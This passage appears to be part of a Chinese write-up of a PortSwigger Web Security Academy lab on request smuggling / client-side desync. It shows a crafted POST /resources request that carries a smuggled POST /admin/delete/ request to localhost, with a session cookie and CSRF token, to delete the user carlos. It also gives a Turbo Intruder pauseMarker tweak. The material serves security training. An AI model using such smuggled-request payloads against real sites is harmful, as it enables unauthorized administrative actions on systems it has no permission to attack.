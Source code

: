 -   操作属性 (/admin/delete)
-   输入的名称 (用户名)
-   csrf token

[![](assets/1705301772-b465d8425709135eaf72f9b47ac1c097.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114184316-b9714924-b2c9-1.png)  
返回配置界面并使用上述信息构造表单重新发送请求：

```plain
POST /resources HTTP/1.1
Host: 0aad0076039d4f288088e4a6007e0045.web-security-academy.net
Cookie: session=rwdFIEqyq1RBngaBvRN99WsxWGpsUpeD
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 159

POST /admin/delete/ HTTP/1.1
Host: localhost
Content-Type: x-www-form-urlencoded
Content-Length: 53

csrf=Dyo9ajteplhUQGufcNGiOcFgfceGOVz9&username=carlos
```

若要防止 Turbo Intruder 在请求中两次出现后暂停，需要更新 pauseMarker 参数，使其仅匹配第一组标头的结尾，例如：

```plain
pauseMarker=['Content-Length: CORRECT\r\n\r\n']
```

[![](assets/1705301772-c700b3666d9e7308bc21b00c097dfb6c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114184350-cdebb286-b2c9-1.png)  